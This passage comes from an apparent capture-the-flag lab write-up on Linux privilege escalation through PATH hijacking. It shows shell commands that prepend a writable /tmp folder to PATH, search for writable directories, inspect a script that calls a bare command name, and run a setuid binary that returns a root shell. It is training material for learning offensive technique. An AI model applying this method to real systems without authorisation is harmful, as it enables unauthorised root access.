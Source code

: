 Folders like `proc` and `usr` aren't actually writable so we can skip those. `tmp` is always a good option though.

```bash
karen@ip-10-10-168-32:/home$ cd /tmp
karen@ip-10-10-168-32:/tmp$ mkdir f
karen@ip-10-10-168-32:/tmp$ cd f/
karen@ip-10-10-168-32:/tmp/f$ export PATH=/tmp/f:$PATH
karen@ip-10-10-168-32:/tmp/f$ echo $PATH
/tmp/f:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
karen@ip-10-10-168-32:/tmp/f$
```


For this lab we need to use a longer string to find the folder. We can use `grep -v proc` to remove the running processes and `cut -d "/" -f 2,3` to narrow the folder down a little more.

```bash
karen@ip-10-10-168-32:/tmp/f$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

dev/char
--SNIP--
dev/zero
etc/udev
home/murdoch <--- this folder is the one of importance
run/acpid.socket
run/dbus
--SNIP--
```


```bash
karen@ip-10-10-168-32:/tmp/f$ cd /home/murdoch
karen@ip-10-10-168-32:/home/murdoch$ ls
test  thm.py
karen@ip-10-10-168-32:/home/murdoch$ cat thm.py
/usr/bin/python3

import os
import sys

try: 
        os.system("thm")
except:
        sys.exit()


karen@ip-10-10-168-32:/home/murdoch$ file test
test: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1724ca90b94176ea2eb867165e837125e8e5ca52, for GNU/Linux 3.2.0, not stripped
karen@ip-10-10-168-32:/home/murdoch$ ./test
root@ip-10-10-168-32:/home/murdoch# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-168-32:/home/murdoch# 
```
